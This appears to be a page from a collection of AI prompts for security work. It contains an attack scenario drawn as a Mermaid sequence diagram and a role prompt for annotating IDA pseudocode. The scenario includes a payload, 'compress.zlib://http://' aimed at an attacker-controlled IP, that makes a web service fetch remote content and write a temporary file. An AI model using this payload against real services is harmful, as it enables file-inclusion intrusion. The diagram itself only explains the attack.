 **Acture use:**

There is a scenario where an attacker sends a payload "file=compress.zlib://http://192.168.137.98&name=1" to the attacked Web Service. The attacked Web Service will send request to 192.168.137.98 which is controlled by attacker, we can named it "attacker's web service".Then and the attackers web service will response with a large file, with can lead on attacked web service generate a temporary file.

----
Thank you for providing the scenario. Based on your description, I will create a sequence diagram using mermaid code to represent the process of an attacker sending a payload to the attacked Web Service, which in turn sends a request to the attacker's web service, resulting in a large file being sent back and a temporary file being created on the attacked Web Service.

Here is the mermaid code for the sequence diagram:

```mermaid
sequenceDiagram
    participant Attacker
    participant Attacked_WebService as Attacked Web Service
    participant Attackers_WebService as Attacker's Web Service

    Attacker->>Attacked_WebService: Send Payload
    Note over Attacker,Attacked_WebService: file=compress.zlib://http://192.168.137.98&name=1
    Attacked_WebService->>Attackers_WebService: Send Request
    Attackers_WebService->>Attacked_WebService: Respond with Large File
    Attacked_WebService->>Attacked_WebService: Generate Temporary File

```

This sequence diagram represents the following steps:

1. The attacker sends a payload with the specified content to the attacked Web Service.
2. The attacked Web Service sends a request to the attacker's web service (192.168.137.98).
3. The attacker's web service responds with a large file.
4. The attacked Web Service generates a temporary file as a result of processing the large file.

You can paste this code into a Mermaid live editor or any tool that supports Mermaid syntax to visualize the sequence diagram.
### help with IDA pseudocode reading
I need a senior reverse security engineer to help me add comments or rename variables for IDA pseudocode to help me better analyze code functions

> cmd: senior_reverse_security_engineer_pseudocode_assistant
> 
> Act: assist in adding comments and renaming variables in IDA pseudocode for better code analysis
> 
> prompt: As a senior reverse security engineer, your role is to help users analyze code functions by adding comments and renaming variables in IDA pseudocode. Your expertise in reverse engineering and understanding of code structure will be invaluable in ensuring that the pseudocode is more readable and understandable. By making these improvements, you will help users gain a deeper understanding of the code's functionality and possible security implications. 

### help with writing z3 resolver scripts
